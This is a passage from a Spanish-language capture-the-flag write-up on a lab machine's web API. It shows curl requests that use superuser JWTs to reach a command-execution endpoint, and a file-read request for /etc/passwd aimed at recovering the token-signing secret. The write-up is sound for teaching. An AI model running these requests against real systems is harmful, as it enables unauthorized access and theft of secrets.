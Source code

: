 
### Failed RCE

Ya somos administradores de la aplicación web. Podemos ver que hay un endpoint que nos permite ejecutar comandos y otra que nos permite leer archivos. Si intentamos ejecutar comandos veremos que no podemos.

```bash
❯ curl -X GET "http://10.10.11.161/api/v1/admin/exec/id" -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjc5MDY5Nzk5LCJpYXQiOjE2NzgzNzg1OTksInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQifQ.tySHpIHjopPp7Gf8QKz2JZFxOTNcMcXY87VQibL5yxg'
{"detail":"Debug key missing from JWT"}
```

El token es un JWT y el mensaje nos indica que falta la key debug en el token.

![](/assets/images/Backend/img6.png)


### API Read Files

Nos hace falta el secreto para crear nuestro propio token, como tenemos la capaccidad de leer archivos, podemos intentar buscar el código de la aplicación.

Vamos a leer el passwd.

```bash
❯ curl -X 'POST' \
  'http://10.10.11.161/api/v1/admin/file' \
  -H 'accept: application/json' \
  -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjc5MDcwMDQ5LCJpYXQiOjE2NzgzNzg4NDksInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQifQ.xv1AsEd_3Q-Mz67kkvAT3XHy-x5XphoeqWpFqE0WbQU' \
  -H 'Content-Type: application/json' \
  -d '{
  "file": "/etc/passwd"
}';echo
```
